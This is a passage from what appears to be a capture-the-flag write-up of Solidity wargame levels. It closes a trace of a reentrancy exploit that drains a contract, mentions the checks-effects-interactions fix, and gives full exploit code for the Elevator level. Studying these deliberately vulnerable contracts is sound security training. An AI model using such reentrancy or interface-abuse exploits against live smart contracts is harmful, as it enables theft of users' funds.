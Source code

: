 ```

7. (Reentrance) if(balances[msg.sender] >= _amount) {
We hit the if statement again. It checks out the `balances` mapping was **never**
updated!

8. (Reentrance) (bool result,) = msg.sender.call{value: _amount}("");

9. (ReentranceExploit) if (address(reentrance).balance > 0) {
The balance is 0 so the contract won't withdraw for a third time

10. (Reentrance) if(result) {...}

11. (Reentrance) balances[msg.sender] -= amount;
The balance is finally updated and the contract has been drained.
```

And that clears the level!

**Note**: Implement the Checks -> Effects -> Interactions pattern to mitigate
reentrancy attacks [5].

# Elevator
To exploit this contract we want to set `top` to `true` and `floor` to
`type(uint256).max`. The first time Elevator calls `isLastFloor()` we'll return
`false` to enter the if statement. Then for the second call we'll return `true`.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract ElevatorExploit is Building {
    bool private isFirstCall = true;
    address private immutable elevator;
    
    constructor(address _elevator) public {
        elevator  = _elevator;
    }

    function exploit() external {
        Elevator(elevator).goTo(type(uint256).max);
    }
    
    function isLastFloor(uint256 floor) external override returns (bool) {
        if (isFirstCall) {
            isFirstCall = false;
            return false;
        } else {
            return true;
        }
    }
}
```
